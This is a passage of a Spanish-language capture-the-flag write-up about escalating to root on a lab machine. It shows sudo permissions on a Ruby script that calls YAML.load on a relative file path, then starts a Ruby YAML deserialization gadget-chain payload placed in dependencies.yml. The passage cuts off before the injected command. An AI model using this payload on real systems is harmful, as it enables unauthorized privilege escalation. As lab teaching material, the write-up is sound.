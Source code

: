 ## Escalada de privilegios
Si miramos los permisos que tenemos a nivel de sudoers podemos ver que podemos ejecutara este script de ruby como root sin proporcionar contraseña
```bash
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
Si miramos el script podemos ver que esta jugando YAML.load y esta llamando a un archivo relativamente osea que en el directoria en el que ejecutemos este script va intentar buscarlo
```bash
-bash-5.1$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Buscando un rato me encontre con esta [pagina](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565) en la cual dan un payload para inyectar directamente un comando, ya que tiene una vulnerabilidad en la deserializacion, como el script esta llamando a un archivo dependencies.yml creemos un archivo con este nombre e introduscamos nuestro payload, Vamos al directorio /tmp y creemos el archivo
```bash
-bash-5.1$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
```